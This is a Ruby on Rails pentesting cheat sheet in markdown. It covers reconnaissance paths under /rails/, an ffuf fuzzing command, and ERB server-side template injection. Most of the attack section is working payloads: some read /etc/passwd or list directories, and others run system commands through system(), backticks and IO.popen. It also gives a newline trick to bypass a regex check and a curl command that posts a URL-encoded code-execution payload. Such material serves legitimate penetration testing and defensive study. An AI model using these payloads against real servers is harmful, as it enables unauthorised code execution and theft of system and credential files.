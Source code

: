 ```yaml
---
title: Ruby on Rails Pentesting
description: Ruby on Rails is a web application framework written in Ruby.
tags:
    - Web
refs:
    - https://cheatsheetseries.owasp.org/cheatsheets/Ruby_on_Rails_Cheat_Sheet.html
date: 2023-08-10
draft: false
---
```


## Common Directories

```bash
/assets/application.css
/config
/Gemfile
/Gemfile.lock
/rails/info
/rails/info/properties
/rails/info/routes
```

In addition, it’s worth to fuzz under **`/rails/`** directory as below.

```bash
ffuf -u https://example.com/rails/FUZZ -w wordlist.txt
```

<br /><br />

## ERB Template Injection

If target website uses **ERB** template which affects a page, we can inject malicious template.

```ruby
text = "<%= 2*3 %>"
result = ERB.new(text).result(binding)
puts result

# expected result: 6
```

<br />

### Payloads

Reference: [Server Side Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

```html
<%= 2*3 %>

<%= self.methods %>
<%= self.method(:handle_POST).parameters %>

<!-- List files and directories -->
<%= Dir.entries('/') %>
<%= File.open('/etc/passwd').read %>

<!-- Code Execution -->
<%= system('cat /etc/passwd') %>
<%= `ls -la /` %>
<%= IO.popen('ls /').readlines() %>
```

<br />

### Regex Check Bypass

Reference: [https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/](https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/)

```html
abc\n<%- 2*3 %>
```

We can also use **`curl`** command if we want to manipulate a payload which contains newline.  
Below is an example for using the URL encoded payload **`<%= IO.popen('ls /').readlines() %>`**.

```html
curl https://example.com/ -X POST -d 'abc
%3C%25%3D%20IO%2Epopen%28%27ls%20%2F%27%29%2Ereadlines%28%29%20%25%3E'
```

